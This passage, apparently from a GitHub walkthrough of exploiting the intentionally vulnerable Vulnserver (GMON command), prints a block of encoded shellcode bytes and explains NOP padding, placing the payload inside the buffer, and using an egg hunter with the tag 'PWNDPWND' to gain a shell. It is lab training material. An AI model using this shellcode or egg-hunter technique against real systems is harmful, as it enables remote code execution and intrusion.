 ```c
buf += b"\x3a\x07\x6d\xa5\xe0\x82\x75\x0d\x62\x34\x51\xaf\xa7"
buf += b"\xa3\x12\xa3\x0c\xa7\x7c\xa0\x93\x64\xf7\xdc\x18\x8b"
buf += b"\xd7\x54\x5a\xa8\xf3\x3d\x38\xd1\xa2\x9b\xef\xee\xb4"
buf += b"\x43\x4f\x4b\xbf\x6e\x84\xe6\xe2\xe6\x69\xcb\x1c\xf7"
buf += b"\xe5\x5c\x6f\xc5\xaa\xf6\xe7\x65\x22\xd1\xf0\x8a\x19"
buf += b"\xa5\x6e\x75\xa2\xd6\xa7\xb2\xf6\x86\xdf\x13\x77\x4d"
buf += b"\x1f\x9b\xa2\xc2\x4f\x33\x1d\xa3\x3f\xf3\xcd\x4b\x55"
buf += b"\xfc\x32\x6b\x56\xd6\x5a\x06\xad\xb1\xa4\x7f\xd9\xc1"
buf += b"\x4d\x82\x21\xe4\x19\x0b\xc7\x82\x31\x5a\x50\x3b\xab"
buf += b"\xc7\x2a\xda\x34\xd2\x57\xdc\xbf\xd1\xa8\x93\x37\x9f"
buf += b"\xba\x44\xb8\xea\xe0\xc3\xc7\xc0\x8c\x88\x5a\x8f\x4c"
buf += b"\xc6\x46\x18\x1b\x8f\xb9\x51\xc9\x3d\xe3\xcb\xef\xbf"
buf += b"\x75\x33\xab\x1b\x46\xba\x32\xe9\xf2\x98\x24\x37\xfa"
buf += b"\xa4\x10\xe7\xad\x72\xce\x41\x04\x35\xb8\x1b\xfb\x9f"
buf += b"\x2c\xdd\x37\x20\x2a\xe2\x1d\xd6\xd2\x53\xc8\xaf\xed"
buf += b"\x5c\x9c\x27\x96\x80\x3c\xc7\x4d\x01\x4c\x82\xcf\x20"
buf += b"\xc5\x4b\x9a\x70\x88\x6b\x71\xb6\xb5\xef\x73\x47\x42"
buf += b"\xef\xf6\x42\x0e\xb7\xeb\x3e\x1f\x52\x0b\xec\x20\x77"
```

Changing junk characters (A's) into ```NOPS``` (\x90)

Since our shellcode is large, we could not place it in ESP and attack it like a classic buffer overflow

We have to place it in between the buffer data and use our egg hunter to find and execute the shellcode

## Exploitation

Now we have gone through every steps and crafted our final exploit to gain shell on our target machine

Adding the string ```PWNDPWND``` as ```egg``` in front our shellcode, so that our egg hunter will find it

The block diagram for our whole exploitation

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-exploit-block.png">
</div>
